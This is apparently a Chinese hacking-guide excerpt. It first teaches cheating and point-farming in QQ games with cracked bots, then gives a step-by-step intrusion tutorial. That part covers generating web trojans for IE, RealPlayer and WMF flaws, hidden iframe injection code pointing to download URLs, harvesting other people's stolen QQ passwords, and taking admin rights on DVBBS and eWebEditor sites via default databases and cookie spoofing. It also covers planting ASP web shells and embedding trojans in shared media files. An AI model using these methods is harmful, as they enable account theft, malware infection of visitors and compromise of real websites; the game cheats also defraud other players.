首先为大家介绍一下QQ游戏大厅的多开方法。我们先安装好QQ游戏大厅。由于QQ游戏大厅是否多开都关系到一个文件，即QQ游戏大厅软件根文件夹（一般是在`C:\Program Files\Tencent\QQGame`）中的Common文件夹中的`Utility.dll`文件，所以我们只须将这个文件替换掉就可以。（注意，这个文件由于是程序的必要文件，所以不可删除）。

找到我为大家在附件的程序中提供的文件——`Utility.dll`，然后复制这个文件，找到QQ游戏大厅根文件夹中的Common文件夹中的`Utility.dll`文件，直接将它替换掉就可以了（图1）。但需要注意的是，多开后会出现一个老板键冲突，直接关了就行，对程序运行没任何影响。

### 二、QQ堂的多开方法

QQ堂多开也是需要替换掉一些程序，但是由于还关联到一些程序，因此替换起来很不方便，所以有人专门写了一个QQ堂的多开程序。我们赶紧来看一下吧。界面如图2所示，无任何按钮。打开软件后先打开外挂，再打开QQT游戏窗口（注意是打开，不是让你进入QQT）。


打开第二个QQT时还是同一个窗口，那你不要关了QQT或关了外挂，再打开一个多开外挂，再试下打开一个QQT窗口，一般就会成功的；如果还不成功的话，同样的道理，打开第三个多开外挂，再打开QQT，这次一定可以让你心想事成（图3）。一般的话是不用超过三次的，如果运气好的话打开一个多开外挂就行了，如果你想省时间，干脆一开始就打开三个多开外挂，再打开QQT游戏（记住不要输入号码和密码进入哦），就可以一次成功多开了。多开QQT后，还有一点要注意的，就是把外挂关了，然后再输入QQ号和密码进入游戏。另外在多开之后，一定要修改一下热键，不然很可能运行不了程序。

### 三、QQ音速的多开方法

QQ音速的多开方法与QQ游戏大厅一样，都是覆盖一个程序，将我在附件中提供的game.dat与QQ音速根文件夹（一般是在`C:\Program Files\Tencent\QQR2`）下的game.dat替换即可。

## QQ堂刷分

大家玩QQ堂游戏的时候见到那些级别特别高的人很羡慕吧，再看他们的胜率是如此之高，这总不可能是他们自己平时一点点玩出来的吧。绝对不是的，他们都是刷分刷出来的。下面我就把刷分的方法教给大家。

思路是这样的，通过QQ堂的多开外挂一台机子登录两个QQ号，然后打开刷分外挂，就是用按键精灵做的一个程序，使游戏里的人物按照按键精灵里面的设置来执行，从而达到给一个赢分号刷分的效果。一般一局需要花费30秒，当你是紫钻加双倍积分卡的时候，每一局的得分大约是130分。就是这样挂在一台电脑上，不能再打开别的东西，挂上一段时间后你会发现你的分数大大提高。那些分和胜率特别高的就是通过这种方法，昼夜不停来刷分的结果。

下面我把QQ堂刷分方法教给大家。我们需要一个废弃的QQ号帮我们来刷分，让它做输分号，然后打开多开外挂，等待它检测版本完成之后就会出现如图1的界面，然后我们用QQ堂多开器多打开几个窗口（具体方法请查看第一节）。好了，我们成功多开了QQ堂之后就要进行刷分啦！刷分前需要把桌面的分辨率调为1024×768，并且把屏幕保护关掉，否则，刷时间长了，屏幕保护就会跳出来，阻扰我们刷分。这时我们打开傲世的QQ堂机器6刷分外挂，如图2。

进入刚刚多开后的QQ堂，在如图3键盘设置中，两个号最好都要把“音效”、“背景音乐”、“特效”和“全屏”去掉。再把赢分号的“向右移动”的方向快捷键参数“右”改为“D”。这样系统的热键才不会发生冲突，从而可以保证我们刷分的顺利。


键盘设置好后，用我们需要加分的号（以下简称“赢分号”）进入游戏，选择一个频道进入，开设一个房间（必须是房主并且在1号位置）。房间的属性要设上密码，防止别人进入来打扰我们刷分，把地图换为机器06。好了，记住我们开设的房间号之后，赢分号我们先放一放，切换到输分号上。输分号在对话框中输入命令“/ar”设置为自动准备，然后进入刚刚赢分号开设的房间。进入以后切换回赢分号点击游戏开始，开始游戏后第一局先别管赢分号，因为QQ堂为了防止别人刷分，当输分号不动的时候下一局就会自动被踢出房间了。所以再次切换回输分号，我们需要想办法让输分号动起来：按着右方向键不放，然后用鼠标把小号窗口最小化后，再松开方向键。这样输分号就会一直向右走，就算是下一局也是一样，这样以后你就再也不用管输分号了。切换回赢分号，现在只有赢分号这一个窗口了，这就要用到刷分外挂开始刷分啦！

按下F11，开始执行外挂，你会看到赢分号已经开始行动了，它会在有效的得分时间内杀死输分号，从而取得胜利，获得分数。下一局会自动开始，再像这样循环运动，循环得分。要想关闭程序就按下F12来关闭，当然这些热键你也可以在外挂上换成别的。刷分的前几局你可以在电脑前守一会儿，看看有没有异常；如果有什么异常再加以调试；如果一切正常你就可以开着电脑看电视去了。如果你能把握好刷分的窗口的话，你也可以在电脑上再打开一个网络电视，然后切换回刷分界面，这样网络电视不会最小化，你可以边看网络电视边刷分了。

刷分的方法其实用起来很简单的，相信大家亲自结合文章实践一下都会用的，接下来分的高低就是一个时间的问题了。祝福大家洗刷刷更多的分哦！


## 火拼QQ堂

在QQ游戏大厅中，有一个迷你版本的QQ堂。很多朋友都是在这里玩到最初的QQ堂，甚至有许多人在这里面苦练等级，想让自己的分数更高一点，如图4。看有些人已经玩到2000多分了，但是还有许多3000分的赫赫地排在最上面，我们可不要认为他们都是自己升级到3000分的（可能有的是自己慢慢升的）。其实有一个方法只要我们轻轻点一下鼠标就能轻松超过他们。不是刷分，也不是外挂，就是正常渠道啦！只要我们安装了完整版的QQ堂游戏就可以，如果没有可以去下载，用完了删除掉就可以了。


我们在游戏的准备界面里会看到如图5的按钮，只需要在“体验完整版QQ堂”上轻松按一下鼠标，就会蹦出QQ堂的登录界面，我们马上把它关了。

这时候在火拼QQ堂上我们的积分就已经达到3000了，这时再进去玩游戏，我们在那里已经是顶级的“高手”啦。

### 5.4 QQ四国军棋刷分

本人QQ四国军棋技术有限，总是输分，但又希望能够得到高分。这里我们就只能去刷QQ四国军棋了。

QQ四国军棋刷分原理就是利用2个QQ号——一个赢、一个输来使赢方获得积分。我们首先打开两个QQ游戏大厅，然后找到一张空桌子，将想要获得积分的账号（以下简称“赢分号”）与输分的小号（以下简称“输分号”）安排到同一房间同一张空桌子，面对面坐下（图1）。

好了，准备工作就做完了，下面我为大家介绍怎么快速刷分：打开我们的刷分器，界面如图2所示。此软件是破解后的注册版本，没有烦人的广告，支持用户自定义延迟，可以对QQ四国军棋进行刷分，限两人，需要多开窗口支持，显示分辨率建议设置为1024×768。我们可以看到，中间有三种刷分类型，我们挨个来看一下吧。

### 一、隐藏刷

隐藏刷是效率最高的一种（俗称“秒刷”），但是要求很高。我们首先将两个QQ号都调入一个相同布局，在附件中可提供布局文件，点击QQ四国军棋窗口上的“调入布局”从文件中选择好布局，然后打开（图3）。

在外挂上选择“隐藏刷”项目，然后将超时调整好（建议不少于3000ms，以免被封号，具体多少看个人爱好），输入完毕后点击外挂上的“载入游戏”。这时下方胜方会出现两个项目，我们选择好胜方账号（即“赢分号”）（图4）。然后点击“开始”，两个窗口会飞速切换，棋子快速移动，过一会就会结束并自动重新开局，反复让“赢分号”获得积分，直到点击停止。

### 二、快速刷

我本人比较提倡使用这个方法来刷积分，虽说速度比隐藏刷慢了点，但是它的延时与棋局都没有限制，我们用系统自动给我们配置的就行。

同样，找到一个桌子两个QQ号面对面坐下，然后点击外挂上的“载入游戏”，选择好胜方，点击开始就可以了。其他的方法与“隐藏刷”的方法一样，因此就不多啰嗦了。

### 三、刷和

这种方法就是一次次的和局，让两个账号同时获得积分，但速度较慢，对延迟也没有要求，方法与前两个方法一样。这里就不多说了。

好了，QQ四国军棋刷分的方法在这里就为大家介绍完毕了。其实非常简单，你可以开上一晚上电脑，让它自动刷分，我们安心睡大觉，明天一早会有意想不到的收获。呵呵，喜欢玩QQ四国军棋的朋友快去试试吧！


## 5.5 QQ连连看作弊刷分

我有很多同学总是喜欢一起在QQ游戏里面玩“连连看”（特别是女同学），还经常在一起切磋技艺。虽然我一个大男生，也会和她们一起去凑凑热闹，我可不是去切磋技艺，而是去展示“技艺”。当然了，我连连看实际玩得不好，我是去展示连连看外挂的技艺，呵呵，让她们大吃一惊！

我用的是最新的QQ连连看外挂——QQ连连看外挂Quake版，该软件是玩QQ连连看的有力助手。而且具有自动开始/模拟人的习惯消去/去除特效、时间停止/秒杀/防止被踢出房间等，下面我们就来看看这款全新的外挂吧。

我们选择“暂不注册”进入后，界面如图1。这个外挂的功能还是非常全面的，不过就是需要注册，不然会有广告的。没关系，能用就行，有没有广告我们不在乎，反正不用花钱。


我们来看看这款软件的具体功能。它可以免费提供“开启挂机”功能，这可就方便了我们挂机刷分了。我们是刷分嘛，当然也就不需要音效了。如图2，在QQ游戏中把“音效”“背景音乐”和“自动倒计时”全部关闭再点确定就行了，这样我们开启挂机功能后再玩其他东西的时候就不用担心受干扰了。


为了更好地刷分，我们还需要选择“自动开始”功能，游戏将自动准备开始，方便下一局自动开始刷分。为了降低CPU的占用，我们可以选择“去除特效”的功能，将不会出现游戏中的动画及倒计时。你或许会担心当我们挂机的时候被别人踢出房间该怎么办呢？没关系，还有“防止被踢”功能呢，在被踢出房间后由外挂自动找到桌子进入，这样我们可就放心了。

下面的“智能模拟”是做什么用的呢？智能当然就是挂机来更加伪装啦。这款软件可以根据真人的消去习惯与视觉识别的特点来消去。软件中综合采用了概率与最值两种方法来实现，由于计算速度比直接消去慢，该方法主要用于伪装成真人消去，并不在于速度。所以这样会更加完美而不容易让别人识别出来。

当然如果你嫌它的消除时间太慢的话，你也可以自己来调节“消除间隔”的时间。这里的时间单位是毫秒，我们可以选择0ms，这样的效果就是秒杀。我和朋友玩的时候我就设置了这样的时间，结果刚一开局，他们还没等反应过来我就已经赢了，效果如图3所示。平时我们如果想刷分的话，如果设置0ms一看就是使用外挂，一般我们可以把消除间隔设为600ms就够了，这样既能以假乱真，而且又不会输分。

后面还有一个绑定刷分功能，此即游戏者有多于一个QQ号，通过其他QQ号向某号（即绑定的号）输分的方式，迅速提高一个号的分数。该功能需要QQ游戏多开大厅。

下面我为大家介绍它的“防老板键”功能。如图4，选择了此功能后，按“Ctrl+Z”会将QQ游戏和外挂一起最小化，只留下右下角的一个QQ游戏图标。


这对于那些上班族们来说可真是一个好东西。平时在单位的电脑上想玩游戏又怕被老板发现，有了这个快捷键，发现老板后立刻按下就行了。如果是想要挂机的话那就更方便啦，设置好了挂机开始直接按老板键，游戏挂机隐藏了之后仍然处于挂机状态，这样就可以保证不被老板发现了。再说我们已经把音效给取消，老板总不会去那么在意吧？但这个时候我们确实还在挂着机，还在升着级呢。


这款软件还可以“自动更新”，你也可以到天空软件站或quakelab.googlepages.com检查软件的最新版本。快去约你的朋友玩局连连看，给他们展示一下你刷分的成果：高分＋高胜率。然后再展示一下你的“技术”，肯定会让他们大吃一惊的！

## QQ对对碰刷分

现在我为大家介绍一款刷QQ对对碰积分的工具——QQ对对碰外挂Quake地震版，支持自动开始游戏、托管挂机、自动道具、挂机保护、绑定刷分等功能。一般地，刷分时加速二十倍没有问题，而且CPU占用率很低。其挂机保护功能效仿电力系统继电保护，不仅可以在遇到更快的对手（比如对方也在使用本外挂且网速比你快）时，有效地主动脱离挂机状态，使你避免输很多分；并且将智能地等对方离去后尝试重新进入挂机状态。这一切不需你的干涉，外挂能够智能完成。

不仅如此，外挂还可定时，或在重新进入挂机状态失败时自动关机，为你省电。如果你希望用其他几个QQ号输分给一个QQ号来刷分，那么绑定刷分功能使你能在一台机器上运行几个客户端来实现。而你要做的只是输入你的QQ号。该外挂是目前已有QQ对对碰外挂中综合功能最为强大的外挂。下面我们赶紧来一睹它的风采吧！

打开外挂后截图如图1所示。由于这款软件是共享版的软件，打开软件后，会提示需要我们注册，不必理会它，直接点击“暂不注册”即可进入。

- 开启托管挂机：就是开启挂机服务，这一项我们因为要刷分，就选上。
- 自动开始游戏：这项功能的作用就是让程序自动开始游戏，挂机的时候我们最好选择上它，免去了我们一次次地点“开始游戏”的麻烦。
- 自动智能道具：这项功能是本软件最大的亮点，能自动进行敌我识别，自动识别道具种类，对不利道具一律发给成绩最好一方，将有利的道具提供给自己使用。
- 开启挂机保护：当我们选择这个功能时，会弹出如图2所示的画面。


我们可以选择高度警惕与一般警惕，如果我们选择高度警惕，则可以在遇到更快的对手（比如对方也在使用本外挂且网速比你快）时，有效地主动脱离挂机状态，使你避免输很多分。并且将智能地等对方离去后尝试重新进入挂机状态。如果在下方的方框中打上勾，则重新进入挂机状态失……

## 第五章 QQ游戏

- 5. 刷分绑定QQ：当我们选择这项会弹出这样一个对话框（图3）。
- 6. 开启防老板键：这个功能与QQ连连看外挂中的防老板键功能一样。

运行后，程序会打开你所有的QQ号，然后自动多开N个游戏大厅，同时给一个ID账号赢分，这样就大大提高了利用效率。在这里还可以给你的刷分定时，避免电脑运行时间过长而浪费资源。

我们按自己的个人需要选择好之后，就可以进行刷分了。来到QQ游戏大厅的对对碰栏目中，运行QQ对对碰外挂，这时你就可以在一边看着了。如图4，我已经远远领先别人好远了。


### 火拼泡泡龙瞄准外挂

许多新手玩火拼泡泡龙，是不是有很多泡泡都不能随心所欲，总是偏离你所想让它到达的地方。我为火拼泡泡龙的新手们推荐一个瞄准外挂，对大家或许有所帮助。

我们使用“一流QQ泡泡龙瞄准器”，界面如图1。这个软件可帮助玩家进行瞄准，特别是对反弹打法很有用，可准确地描出泡泡的行走路线，使你不会因为瞄不准而出错，迅速帮你提高水平。


我们使用的是试用版，正式版需要花钱。试用版会有功能限制，并会出现广告信息，而且每隔一段时间会自动退出（如图2）。


我们打开QQ的火拼泡泡龙游戏，然后打开外挂，直接点“开始”，再切回游戏界面时会发现游戏上边多了一条红线。虽然这条线非常细，但已经足以让我们看清泡泡的去向了，而且随着箭头变化，泡泡的反弹情况也做出相应变化，效果如图3。


### QQ挖金子外挂来帮忙

很多人都玩过QQ挖金子吧？但是你有没有“妄想”过能透视游戏里面的金子和陷阱呢？现在就让我们借助“一流QQ挖金子外挂”来妄想一下。

我们首先打开游戏，然后打开外挂，如图1所示，选择试用就可以出现如图2的界面了。这款软件可以快速提高QQ挖金子游戏的积分和等级，并可秒杀对手、透视游戏池、标记陷阱、刷分等等。

如果我们已经打开了游戏，那么只需要选中透视游戏池就可以了，你肯定会大吃一惊，如图3。

除了最下面三行依然如故以外，游戏里面的其他隐藏内容竟然被透视了。哪里是金子，哪里是陷阱是不是清清楚楚了。1表示方块下的数字是1，2表示数字2，*表示陷阱，没显示字符表示该方块为空。外挂的一切效果对游戏的最下面三行不起作用，这三行就要看你的游戏技术了，但这比起那些没有外挂的玩家当然还是占便宜了！按F9或者点击“只挖一个”则外挂会一个个地帮我们挖出来。也可以按F10或者点击“标记陷阱”来让外挂帮我们标记陷阱，非常方便吧。本来还想用秒杀功能来爽爽的，可是因为我们使用的是试用版本，所以有一部分功能没有开放，不能刷分，也不能秒杀。

如果你想注册使用刷分功能，以下是刷分流程。

刷分之前的准备：先安装QQ游戏大厅多开补丁（具体的多开方法详见第一节），申请足够的QQ号用于送分；把“游戏音效”“背景音乐”“动画效果”“道具提示框提示”“自动倒计时”等选项去掉，以提高刷分速度；建议关闭多余的程序，以免影响刷分效果；开2—4个号进入同一房间（加上密码），把要赢分的那个窗口切换到最上面，然后按外挂上的【刷分】按钮。注意：【刷分】按钮按下时，请不要勾选透视游戏池和其它功能。

有了这款软件是不是很方便啦？依靠这个透视功能，把所有金子尽收眼底，让我们的战无不胜！


### QQ五子棋刷分

说起五子棋，我只会玩一点，技术不怎么过关，再加上玩QQ五子棋游戏的高手太多了，搞得我现在的分都是负的了。负这么多分怎么说得过去，以后我还怎么在五子棋游戏上混啊。我这就决定给自己刷点分，好赚点面子。

因为QQ五子棋没有对赢的时间做限制，所以上来就输，对方照样能得分。QQ五子棋的刷分原理就是利用两个QQ号，一个输分号自动认输，来使赢分号获得积分。我们使用“一流QQ五子棋刷分器”，还需要QQ游戏大厅的多开来配合，然后找到一张空桌子，最好设置上密码，接着上另一个号就可以了。进入游戏后把游戏中的“显示设置”中所有选项前的勾去掉，按“确定”，并且把显示分辨率设为1024×768，如图1。


两个号都进入以后，然后打开“一流QQ五子棋刷分器”，如图2。我们需要切换到赢分号上来，看清楚，可不要刷反了。我们点击“赢分”就开始刷分了，这时候我们不要乱动桌面上其它的东西，安心等它刷分就好了。我们会看到不断传来输分号认输的消息，如图3。这样我们的赢分号将会不断获得分数。因为我们是未注册版，所以刷分途中会不断退出外挂，我们需要守在电脑旁，不断重新打开外挂。


你刚刚也许就看到这个“延时系数”这个选项了吧。“延时系数”值越小，刷分速度越快。但是试用版值越小，外挂自动退出的时间也越快。把延时系数设为10时，在刷完5分之后外挂自动退出。延时系数设为100时，在刷完10分后外挂自动退出。设为100时刷的分更多一点，但是消耗的时间也会相应变多了。这里的值你可以自己试一下，随便选择一个适合的就可以刷了。平时闲得没事就出来刷点分吧，不但可以消除负分，大家还都将会成为五子棋“高手”啦！


### QQ斗地主刷分 5.10


记得才刚开始学QQ斗地主这个游戏的时候，一开始不会玩，就拿自己的QQ号练习，没想到输了N局，分都变成负的了。QQ的其它那么多游戏都能刷分，别看QQ斗地主是三个人玩的游戏，照样也能刷分。

我们还是使用“一流QQ斗地主刷分器”，这是最新的QQ斗地主刷分外挂，无广告页面弹出，支持新斗地主区，不支持怀旧区。大大提高刷分速度和稳定性；可以出火箭、炸弹、顺子、三带一、三张、对、单张等；每局约2～6秒。

刷分原理当然和以前的其它刷分是一样的，虽然需要开三个号，只要我们能开得过来，外挂就能“忙”得过来，大家不需要担心。照样输分，照样赢分，照样刷分。


安装外挂，这个外挂也为我们提供了一个多开功能，如图1。你可以用第一节我们讲到的多开方法，也可以用这个外挂提供的多开方法。那么我们就来介绍一下这个外挂带着的这些功能吧。按“点击多开一个大厅”按钮，外挂就会为你多开大厅，需要多开几个就按几下。还有一个“批量登录号码密码列表”，这里是提供给注册用户的一个功能，可以一次帮你批量登录QQ大厅。下面有四项功能：“排列”就是使你打开的多个QQ游戏大厅按顺序整齐地排列开，方便操作；“隐藏”就相当于老板键，可以快速最小化游戏大厅；“显示”就是重新显示出游戏大厅；“关闭”就是关闭游戏大厅。


我们需要准备两个QQ号，这两个号用来输分，找个人少的房间进入，三个号都坐在一个桌上，开始游戏就行了。把外挂换到刷分功能上来，这里的延时和其他刷分的延时都是一个用法，就不多说了。下一步点击“开始刷分”会出现如图3所示的窗口，我们选择好赢分号点“确定”，这个时候不要乱动其它操作了，你会看到已经开始刷分了，赢分号在不停地“出牌”，而其它两个输分号则在不停地“不出”。


这样我们的赢分号正在不断胜利，获得分数，如图4。这个外挂每赢2～3局就会自动退出，正刷得过瘾呢，它一下子退出确实有点烦人。我们可以稍微快速点继续打开外挂，一旦外挂退出后，我们按Win+D快速切换到桌面，然后打开外挂点开始，这时外挂将会自动替你打开游戏窗口继续刷分。试用版只能这样来使用了，不过还是比较快的，才一会儿工夫，就刷到了许多分了，如图5。

如果你感觉还是慢的话，你可以来买一个双倍积分卡，这样分数将会是原来的一倍了。大家还注意到外挂上还有两个功能“隐藏游戏窗口”和“显示游戏窗口”，在这里这两个功能也没多大用处，大家可以自己用一下，就是可以隐藏正在进行的游戏窗口。

### 入侵木马

#### 一、利用网页木马盗号

#### 1. 穿透 Windows XP SP2 的网页木马

现在有相当一部分人的系统补丁（尤其是IE浏览器补丁）没有打全，致使网页木马现在很猖獗。网页木马是利用IE的漏洞使系统自动去下载别的木马并执行，现在网上比较流行的是SP2网页木马，它利用的是hhctrl.ocx（帮助控件）的漏洞跨域写脚本文件并执行（Help Control Local Zone Bypass），它以能突破没打该补丁的Windows XP SP2系统而闻名。

网页木马也是需要配置的。我给大家推荐的是GoldSun的版本（图1），他写网页木马比较好用。打开网页木马生成器，点击按钮选择木马文件，比如你要盗QQ，那么就选择一个QQ木马，然后再在网页目录里填写你要将网页木马放在哪个目录的外部访问URL地址。我这里放在论坛的QQ文件夹中。为了防止被杀，我们启动防杀处理，程序会自动对生成的网页木马进行混淆处理，我这里选择混淆度为13，大家可以灵活设定。设置完后点击生成（图2），我们的SP2网页木马就诞生了。


我们把生成的这些文件都上传到空间中。现在只要没打补丁的机器访问 http://bbs.54jj.cn/qq/joke.htm 就会中招，自动下载并执行一个“Windows按钮突破专家”。如果把这个“Windows按钮突破专家”换成一个阿拉QQ大盗的话，对方的QQ号就唾手可得了！（图3）


那么我们怎么让别人访问呢？最好的办法是把这个网页木马嵌入到正常的网页中，这样他们在浏览正常页面的时候就会悄悄地打开我们的网页木马了。

假设我们已经拿到了一个网站的webshell（拿webshell的方法在这里先不提了，常看《黑客X档案》的读者应该能很轻松地得到的），我们先登录上去（图4）。选择FSO文件浏览操作器，找到网站的目录，可以选择图中的“/”（图5），这样一下子就来到网站的根目录了，然后找到它的首页文件（一般是带有index或者是default字样的文件），点击“编辑”按钮。


```html
<iframe src=网页木马地址 width=0 height=0></iframe>
```

保存（图6）。这样只要浏览这个网站首页的人都会在不知不觉中打开我们的网页木马，那些没打补丁还会运行我们放上的盗号程序！是不是很简单呢！

#### 2. RealPlayer 木马

介绍完了SP2网页木马，我们再来看看RealPlayer小马（图7），针对RealPlayer漏洞的最新网页木马，可以过任何系统，包括XP+SP2，不弹窗，不被查杀。本网页木马调用方式如同播放一个rm电影，几乎不存在查杀的可能。

首先将你的木马上传到个人空间里，运行生成器，输入木马的网址，在实现方式有三种方式供你选择，推荐Embed标签方式。点击生成，将会在本目录下生成realx.htm与realx.smi两个文件，连同目录下的index.htm一起上传到空间就可以了。


#### 3. 利用Flash转向传播木马

其实除了黑站拿webshell往人家首页插马外，还有一种比较简单的办法可以把别人骗到我们的网页木马来。我们可以找一个正常的SWF文件，然后运行SWF插马工具轻松实现插马工作（图8）。先点击“选择”找到一个SWF文件，再在插入代码后面写入网页木马地址，最后点击“给我插”即可。当对方查看这个SWF文件时，IE就会自动转向访问网页木马。


#### 4. wmf网页木马

再给大家介绍一下wmf（MS06-001）网页木马，这个漏洞存在于Windows 98以后的所有版本的Windows。我们先来看这个网页木马的生成和使用。打开一个CMD，来到ms06001.exe的目录下，按指定命令生成文件。

```bash
ms06001.exe 要下载的文件的URL地址
# 例如
ms06001.exe http://bbs.54jj.cn/mm.exe
```


生成的exploit.wmf上传到空间后，得到wmf地址，例如 http://www.wmf.com/exploit.wmf ，然后将iframe代码插入别人的首页即可触发访问并执行下载。

```html
<iframe src=http://www.wmf.com/exploit.wmf width=0 height=0></iframe>
```

### 二、坐收渔翁之利——挖掘机轻松挖掘别人的盗号果实

还记得我们在介绍盗Q软件时的忠告吗？就是把“ASP接口文件输出的文本文件的名字改掉”。很多新手却总是不知道怎么去改或者懒得去改，就给我们留下了可乘之机。我们可以用挖掘机来搜索这些新手盗Q的文本文件，就能轻松地获取别人辛苦盗来的Q号了。

打开挖掘机（图10），在关键字里写入“password”，在URL后缀里选择“qq.txt”“tmdqq.asp”，再选择搜索GOOGLE国内部分，然后设置好运行线程（一般保持默认就可以了），点击开始它就会自动开始搜索。

我们可以点击“检测进程”来查看它的搜索进度（图11）。当搜索了一段时间后，再点击“检测结果”就可以收获丰硕的“果实”了（图12）。


当然，有时候搜索的结果可能会有重复现象，我们可以点击“查重”来把重复的URL给过滤掉，再点击“验证”来核实一下这些URL的可用性，然后我们双击程序中的URL地址，它就会自动打开IE并连接到该地址（图13）。如果你嫌麻烦，也可以选择“导出”，然后填写好你要保存的路径和文件名就可以了。怎么样？够简单吧？想想那些盗Q号的新手在查看“残羹冷饭”时的表情吧。爽啊！这个技术同时也提醒我们在配置盗Q软件的时候一定要把这些敏感信息给改掉哦！当然除了扫这个文件以外，挖掘机还可以挖很多东西的，比如webshell、数据库啊什么的，这里就不过多介绍了。


### 三、简单入侵DVBBS挂马盗号

再来说说通过动网默认的数据库来获得webshell来挂马。现在网上的很多论坛都是动网论坛（DVBBS），一些新手不会更改数据库的名字，直接传上去就用，一点安全意识也没有，那么我们就来“拯救”他们吧！

我这里选择了我们县的酒厂（扳倒井）论坛来给大家做演示。俺无意中得到了他们的网站地址，所以就来看看有没有好玩的咯。我们打开论坛，直接在IE的地址栏中输入 http://bdjjt.com/data/dvbbs7.mdb ，可爱的下载框就乖乖出现了（图14）。


然后在后边加上`/data/dvbbs7.mdb`我们保存下来，再使用“Domain3.5”打开它。直接找到`DV_Log`这个表（图15）（这个表里面保存有管理员更改密码时留下的日志）。在`l-content`字段里搜索`pass`，然后双击打开详细信息。我们看到这句`oldusername=admin&username2=admin&password2=...`里面的`username2`就是管理员的用户名了，`password2`就是他的明文密码哦（后台登录密码）。


回到IE中输入该密码来登录就可以了（因为很多管理员的前台密码和后台密码都是一样的）。也许有读者会问了，如果他设置的前后台密码不一样呢？比如这个论坛就是这样。没问题，我们有不需要知道前台密码也照样登录前台的方法，这就是`COOKIES`欺骗。


我们回到`Domain3.5`，打开`DV_User`这个数据表（图16），刚才得知管理员的用户名为`admin`，所以就打开admin的详细记录。我们找到他的`UserID`和`TurePassWord`这两个值并记录好，再使用Domain3.5打开论坛。因为这个软件支持修改`COOKIES`操作。我们先注册一个账号，在登录的时候选择保留`COOKIES`为1年，登录以后我们再来看`COOKIES`一栏，把里面的`UserId`改成“1”，把`UserClass`改成“管理员”，把`UserName`改成“Admin”，把`PassWord`改成刚才记录的`TurePassWord`，然后点击修改，再点击连接，现在我们就成了前台的管理员了（图17）。


即使没有获得后台的密码，我们现在也可以挂马。方法是：选择一个论坛版块，点击“管理”，选择“分版广告管理”（图18），在“首页顶部广告代码”和“首页尾部广告代码”中填入挂马的代码，当别人浏览这个版块的时候就会中我们的网页木马。（PS：这个方法经验不丰富的管理员很难查出来的哦！）

回到正题上来，刚才说了要拿webshell的嘛，所以咱们要先在一个论坛版块里上传一个内容是ASP木马、后缀是图片的文件（小编：其实就是把ASP木马的扩展名改为bmp，但是在最新的DVBBS中这个方法已经无效了，因为在上传文件的时候DVBBS会自动检查这是不是……）。

## 四、入侵EwebEditor

EwebEditor 是一个在线编辑器，功能很强大，很多整站程序都使用它。而且一些程序员水平不太高，把管理页面还保留着，连登录密码都没有更改（默认账号和密码都是 admin），数据库路径也没有改（db/ewebeditor.mdb）。那么我们就来捞点 WebShell 尝尝。

在百度里搜索“ewebeditor”就会搜索到很多这样的站点（图23），随便找了一个，先输入默认密码试试能否登录后台，错误，第一次失败了（图24）。再来看看数据库是否改了名字：网址最后加上“db/ewebeditor.mdb”回车，可爱的下载框已经出现了（图25）。

下载回来后使用 Domain3.5 来打开。ewebeditor_System 这个表里存放着管理员的账号和密码（图26），不过都是经过 MD5 加密的。那就使用查询 MD5 的网站把密码“破解”出来：登录 www.cmd5.com，输入 MD5 加密值和验证码。很快查出第一个 MD5 的明文是 ADMIN，也就是管理员账号，第二个是 tubian，是管理员密码（图27）。

现在可以正大光明地进入管理员后台了。添加一个样式（图28），名字随便，接着在“图片类型”里增加 ASP 类型，这样一会儿就可以上传 ASP 文件了。点击“样式预览”就打开了以前添加样式的信息添加页面（图29），随便加个“图片”来试试。在这里我们选择一个 ASP 木马，点击上传，搞定！哎？只显示出来一个文件名，那……

这个 ASP 文件的完整路径是什么呢？别急，切换到“代码”显示模式就可以看到 ASP 木马的完整 URL 地址了（图30），还等什么？直接复制到 IE 中打开吧（图31）！

一张真正的图片。我的建议是把 ASP 木马改成 txt 或者 rar 文件上传。那么下文中提到的图片地址就相应改成这个 txt 或 rar 文件的地址（图19），然后我们直接利用查出来的后台管理密码来登录。进入备份数据库的地方（图20），输入刚才得到的、已上传图片文件 URL 的相对地址，然后输入备份目录和名字，OK！我们的 ASP 木马就变身成功了（图21、图22）。现在访问这个 ASP 木马，我们就算得到了一个 WebShell，把它用来挂马吧！

## 五、通过许愿板获得 WebShell

利用许愿板默认数据库是 ASP 后缀，而且没有做防下载处理，在里面加一句话木马，然后再连接，WebShell 就拿到了。

在百度里搜索“inurl:showwish.asp?”（图32），它的意思是搜索 URL 地址里包含“showwish.asp?”的链接地址，这样就可以更精确地找到目标。

随便选一个，你别说，还真挺漂亮（图33）。点“我要许愿”，在最真诚的话语里写入一句话木马并提交出去。（够“真诚”吧？）（图34）

为了检测刚才写的代码是否已经加入到数据库中了，我们可以打开数据库地址来看看。数据库名字为“!!!wishes!!!vertigo&&&.asp”，名字很 BT 吧！组合起来使用 IE 访问（图35），看到最下面有个提示，说明一句话木马已经插入进去了。拿出一句话木马连接器来连接吧（图36）。因为这个马太大了，我们可以写一个小点的马，用起来也舒服些。

在连接器里填写好数据库的 URL，还有里面 request 的值，点提交。随着 IE 缓慢前行，WebShell 也在生成着。OK！成功生成并且自动转到了新马界面（图37）。

是不是很简单呢？希望大家学会的是方法思路，要多思考，活学活用才行。

## P2P，BT挂马

现在利用 P2P、BT 交流最多的要数视频影音文件了。P2P、BT 挂马就是向这些视频影音文件中插入代码，然后共享出去。别人下载后，满心欢喜地打开我们的视频文件时弹出网页木马（网页木马地址）。当用户点击“是”进行验证时，我们的网页木马就被打开了。

我们可以使用“WMDRM 打包加密器”生成这样的恶意文件。“WMDRM 打包加密器”是一款可以对 WMA、WMV 进行 DRM 加密的软件，软件本身是为了保护媒体文件版权而设计的，但是用来挂马也不错哦。

### 一、WMV、ASF、WMA 文件插马

对于 WMA、WMV、ASF 文件，是利用其默认播放器 Windows Media Player 的“Microsoft Windows 媒体播放器数字权限管理加载任意网页漏洞”来制作木马的。当我们使用 Media Player 播放已经被插入木马的恶意文件时，播放器首先会弹出一个窗口，提示此文件经过 DRM 加密，需要通过 URL 验证证书（这个 URL 就是事先设置好的网页木马地址）。

我们打开 WMDRM 打包加密器（图1），在源文件设置处选择要插马的视频文件，然后选择好输出目录，点击“认证字符串”选项卡（图2），把认证 URL 改成网页地址，然后点击保存。回到“自定义打包”选项卡，点击“打包加密”就可以了。打开生成文件来测试一下，看到了吧？我们设定的网页打开了（图3、图4）。

再给大家介绍一款 WMX 木马，它会在生成的视频文件中显示一张图片，那个图片的链接是我们的网马，也就是说需要别人点击才能打开。能不能让别人自己打开，那就得看你的骗术有多高明了。我们还是来看一下工具使用吧！

